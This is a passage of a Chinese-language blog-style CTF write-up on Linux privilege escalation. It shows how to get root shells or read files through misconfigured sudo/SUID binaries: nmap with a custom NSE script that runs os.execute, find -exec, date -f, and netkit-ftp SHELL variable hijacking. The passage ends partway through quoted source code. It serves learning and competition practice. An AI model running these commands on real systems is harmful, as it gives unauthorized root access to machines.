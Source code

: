     //这是真正意义上的提权，进入到了root用户的shell

但是这是老版本的，为了安全性，nmap的这个机制已经弃用。然后了解到较新版可使用`--script`参数

    
    
    echo "os.execute('/var/www/html/root-see.out')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse  
      
    .nse文件是nmap的定制脚本文件，用lua语言写的

![]()image
(4).png可以看见，nmap的调用机制已经更新了，记住尝试时别在输入密码切换到root后再执行，因为你输入的密码会默认保存5分钟，那样是能执行的。![]()image
(5).png

### find （-exec执行命令）

find是个比较常用的命令，find用来在系统中查找文件。通常很少谈到它也有执行系统命令的功能。
因此，如果配置为使用`SUID`权限运行，则可以通过`find`执行的命令，并且都将以`root`身份去运行。但是现在很多系统上find命令默认没有`SUID`权限

![]()image (6).png所以这里为了演示，我赋予一个![]()image
(7).png开始尝试，find执行系统命令的格式，从下面的执行结果不难看出，find进程确实属于其拥有者

    
    
    find \ -exec whoami \;   
      这个\;必须要有，而且和命令前要有个空格  
      -exec：<执行指令>：假设find指令的回传值为True，就执行该指令；  
      -true：将find指令的回传值皆设为True； 这个可能会用到

![]()image (8).png然后，尝试执行只有root有权限执行的文件，成功。![]()image (9).png

### date 读取文件（比赛中遇见）

也是一个比赛里的，这他娘真算是一个比较偏僻的点，读文件用的 虽然会报错，但是还是会读取文件

    
    
    命令格式  
      date -f/--file <filename>  
      
      -f, --file=DATEFILE：类似于--date; 一次从DATEFILE处理一行。

![]()image (10).png

### netkit-ftp提权（2022蓝帽杯）

netkit-ftp和ftp是一个东西 一般情况，ftp提权是在vps上搭建一个ftp服务端作接收端，然后让靶机上的ftp以root权限把文件传送过来就行了
蓝帽杯这题比较特殊，他是放在php交互脚本里进行命令执行，没办法在shell中与ftp交互，上面说的那种方式无法实现。
这里主要是劫持环境变量`SHELL`进行命令执行 在`cmds.c`文件中，定位到 **netkit-ftp源码**
功能实现代码可知是从系统变量中获取`SHELL变量`进行执行 https://github.com/mmaraya/netkit-ftp

    
    
    /*  
    * Do a shell escape  
    */  
    void  
    shell(const char *arg)  
    {  
        int pid;  
        void (*old1)(int);  
        void (*old2)(int);  
        char shellnam[40];  
        const char *theshell, *namep;   
      
